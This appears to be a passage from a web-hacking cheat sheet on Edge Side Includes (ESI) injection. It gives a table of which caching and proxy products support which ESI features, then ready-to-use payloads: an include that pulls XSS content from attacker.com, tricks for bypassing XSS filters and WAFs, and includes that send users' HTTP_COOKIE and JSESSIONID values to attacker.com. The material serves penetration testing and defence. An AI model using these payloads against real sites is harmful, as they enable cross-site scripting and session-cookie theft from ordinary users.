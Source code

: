 - **Includes**: Supports the `<esi:includes>` directive
    
- **Vars**: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
    
- **Cookie**: Document cookies are accessible to the ESI engine
    
- **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
    
- **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts
    

|   |   |   |   |   |   |
|---|---|---|---|---|---|
|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|

#### XSS
The following ESI directive will load an arbitrary file inside the response of the server

Copy

```
<esi:include src=http://attacker.com/xss.html>
```

#### Bypassing client xss protection
```
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```

#### Steal cookie
- Remote steal cookie
    



```
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
